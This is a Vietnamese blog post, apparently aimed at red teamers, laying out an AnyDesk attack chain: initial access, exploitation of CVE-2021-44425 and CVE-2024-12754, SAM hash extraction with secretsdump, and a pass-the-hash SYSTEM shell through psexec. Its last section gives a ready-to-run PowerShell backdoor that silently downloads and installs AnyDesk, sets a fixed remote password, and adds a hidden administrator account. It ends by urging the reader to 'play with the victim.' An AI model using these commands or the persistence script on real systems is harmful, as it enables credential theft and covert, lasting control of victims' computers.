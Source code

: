 ```yaml
---
title: "Repurposing remote desktop application as a strategic exploit"
published: 2025-02-10
description: ""
image: ""
tags:
  - "vuln-research"
  - "windows"
category: "Cybersecurity"
draft: false 
lang: "en"
---
```

![alt text](new-1.png)
Trong thế giới an ninh mạng, công cụ hợp pháp đôi khi trở thành vũ khí nguy hiểm khi rơi vào tay kẻ tấn công. Các ứng dụng Remote Desktop như AnyDesk, TeamViewer, Windows RDP không chỉ hỗ trợ quản trị hệ thống từ xa mà còn mở ra cơ hội cho Red Team thực hiện **Lateral Movement**, Leo thang đặc quyền (**Privilege Escalation**), và Duy trì truy cập (**Persistence**).

Trong bài viết này, chúng ta sẽ đi tìm hiểu một chuỗi kịch bản tấn công sử dụng AnyDesk – từ xâm nhập ban đầu đến thiết lập duy trì kết nối lâu dài.

## **Initial Access**  
![alt text](image-3.png)
**1. Social Engineering**  
Các nhóm ransomware như **Black Basta,Lockbit,...** thường gửi hàng loạt email đăng ký newsletter hợp pháp, gây nhiễu loạn hệ thống, sau đó liên hệ qua điện thoại (vờ là bộ phận IT) để dụ nạn nhân tải AnyDesk để "khắc phục sự cố".

**2. Phishing**  
Email/website giả mạo dụ người dùng tải phiên bản AnyDesk độc hại (chứa backdoor hoặc các phiên bản cũ có dính lổ hổng bảo mật) hoặc nhập thông tin xác thực giả. Khi cài đặt thành công, attacker toàn quyền điều khiển máy nạn nhân qua giao diện AnyDesk.

**3. Lỗ hổng Phần mềm** 
Các phiên bản AnyDesk chưa vá (đặc biệt lỗi **CVE-2021-44425**) cho phép attacker khai thác để chiếm quyền truy cập trái phép.  

**4. Unattended Access**
Tính năng "truy cập không giám sát" cho phép kết nối từ xa mà không cần xác nhận của người dùng. Attacker brute-force password hoặc dùng credential rò rỉ để duy trì kết nối ngầm.  
### **🌐 CVE-2021-44425**  
![alt text](image.png)
Khi sử dụng tính năng tunneling, client Windows của AnyDesk mở ra một cổng lắng nghe không cần thiết trên máy thuộc LAN của kẻ tấn công. Điều này cho phép kẻ tấn công truy cập trái phép vào bộ giao thức tunneling của AnyDesk trên máy cục bộ, cũng như vào bất kỳ phần mềm nào trên máy đích từ xa đang lắng nghe qua cổng được tunnel.

**Kịch bản Tấn công:**  
- **Bối cảnh:** Nhân viên công ty dùng AnyDesk tunnel để kết nối máy chủ nội bộ từ quán cà phê.  
- **Lỗi Binding TCP:** AnyDesk mặc định bind tunnel qua **0.0.0.0** (tất cả interface), kẻ tấn công cùng mạng Wi-Fi có thể:  
  - **Chiếm quyền Truy cập:** Khai thác cổng mạng bị lộ để tấn công dịch vụ nội bộ.  
  - **Leo thang Đe dọa:** Xâm nhập sâu vào mạng "an toàn", đánh cắp dữ liệu nhạy cảm qua kênh tunnel.  

**Hệ lụy:**  
- Dịch vụ nội bộ (database, file server) bị phơi bày trên mạng công cộng.  
- Attacker chiếm quyền điều khiển toàn bộ stack giao tiếp AnyDesk của nạn nhân.  

## Privilege Escalation
Ở case này chúng ta có thể tận dụng lổ hổng **CVE-2024-12754** để khai thác Local Privilege Escalation.
### **🌐 CVE-2024-12754**  
CVE-2024-12754 bắt nguồn từ cơ chế `READ/WRITE` file tùy ý của AnyDesk service, vốn chạy với quyền `NT AUTHORITY\SYSTEM`. 
![alt text](image-4.png)
Điều này đồng nghĩa với việc chúng ta có thể sao chép bất kỳ tệp nào đến một vị trí mà người dùng có đặc quyền thấp có thể truy cập, đồng thời vẫn giữ nguyên quyền sở hữu và các thiết lập quyền hạn ban đầu.
![alt text](image-9.png)
Vậy chúng ta sẽ có kịch bản tấn công như sau:
1. **Tận dụng lỗ hổng để copy file SAM/SECURITY**

Chúng ta có thể kết hợp khai thác lỗ hổng và phương pháp Shadow Copy từ mã nguồn sau: https://github.com/Wh04m1001/VSSCopy (sử dụng hàm NtQueryDirectoryObject để thực hiện việc copy) để có thể copy các file SAM/SECURITY.
![alt text](image-10.png)
> Note: **NtQueryDirectoryObject** là một hàm trong Windows Native API (NTAPI), thuộc nhóm hàm quản lý Object Manager của Windows. Hàm này cho phép truy vấn danh sách các Object Directory trong Windows Object Manager, giúp liệt kê các đối tượng hệ thống như named pipes, mutexes, events, symbolic links, shared memory, và device objects. 
```C
NTSTATUS NtQueryDirectoryObject(
  HANDLE DirectoryHandle, //Handle của Object Directory cần truy vấn.
  PVOID Buffer, //Bộ đệm chứa danh sách các đối tượng (trả về sau khi gọi hàm).
  ULONG Length, //Kích thước bộ đệm Buffer (tính bằng byte).
  BOOLEAN ReturnSingleEntry, // TRUE: Trả về một đối tượng duy nhất trong mỗi lần gọi. FALSE: Trả về danh sách đầy đủ các đối tượng có trong thư mục.
  BOOLEAN RestartScan, //TRUE: Quét lại từ đầu danh sách đối tượng. FALSE: Tiếp tục quét từ vị trí trước đó.
  PULONG Context, //Con trỏ đến vị trí quét hiện tại (giá trị sẽ được cập nhật khi quét danh sách đối tượng).
  PULONG ReturnLength //Trả về số byte thực tế được ghi vào Buffer.
);
```
Chúng ta xây dựng poc và output sau khi chạy poc của chúng ta:![alt text](image-7.png)
2. **Trích xuất Credential:**  
Sau khi chúng ta lấy được file SAM/SECURITY, chúng ta sử dụng các công cụ như `secretsdump.py` hoặc `mimikatz` để phân tích:
   - NTLM Hash của tài khoản Administrator.
   - LSA Secrets (dữ liệu nhạy cảm trong registry).
   - Cached Credentials (thông tin đăng nhập lưu cache).
      - Ví dụ: Dùng `secretsdump` trong bộ `impacket` để trích xuất hash.
      
      Command như sau: `python .\.venv\Scripts\secretsdump.py -sam .\Result\sam -system .\Result\system LOCAL`

      Output:!![alt text](image-8.png)
3. **Lấy shell**

Chúng ta có thể sử dụng kỹ thuật Pass The Hash để lấy **system shell**.

Sử dụng `psexec` từ bộ impacket để chạy **shell** với hash đã trích xuất được với cú pháp sau:
`impacket-psexec -hashes <LMHash>:<NTHash> <username>@<ip>`

**Kết quả:**  
![alt text](image-5.png)

Chúng ta có thể chạy shell với quyền `NT AUTHORITY\SYSTEM`. 
   ![Mô tả ảnh](sticker_2134-512x512.png)

## **Persistence - Backdooring AnyDesk for Future Access**  
Chúng ta cũng có thể tận dụng AnyDesk để persistence thông qua tính năng cho phép đặt mật khẩu điều khiển từ xa.
Scripts dưới đây cho phép cài đặt AnyDesk một cách âm thầm và đặt mật khẩu để có quyền truy cập từ xa và đồng thời tạo ra một người dùng mới với các đặc quyền quản trị viên và ẩn tài khoản mới khỏi màn hình đăng nhập Windows.
```powershell
# Tải & Cài đặt AnyDesk ngầm
mkdir "C:\ProgramData\AnyDesk"
$clnt = New-Object System.Net.WebClient
$clnt.DownloadFile("http://download.anydesk.com/AnyDesk.exe", "C:\ProgramData\AnyDesk.exe")
Start-Process "C:\ProgramData\AnyDesk.exe" -ArgumentList "--install C:\ProgramData\AnyDesk --start-with=win --silent" -Wait
# Đặt mật khẩu điều khiển từ xa
Start-Process "C:\ProgramData\anydesk.exe" -ArgumentList "--set-password hacker@123" -Wait
# Tạo user ẩn với quyền Admin
net user oldadministrator "hacker#213" /add
net localgroup Administrators oldadministrator /ADD
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v oldadministrator /t REG_DWORD /d 0 /f
```  
Bằng cách chạy đoạn script trên, Attacker có thể kết nối với target qua AnyDesk bất kỳ lúc nào. 
![alt text](image-12.png)
<h2><strong style="color: red;">Now you pwned everything!!! It’s your time to play with the victim.</strong><h2>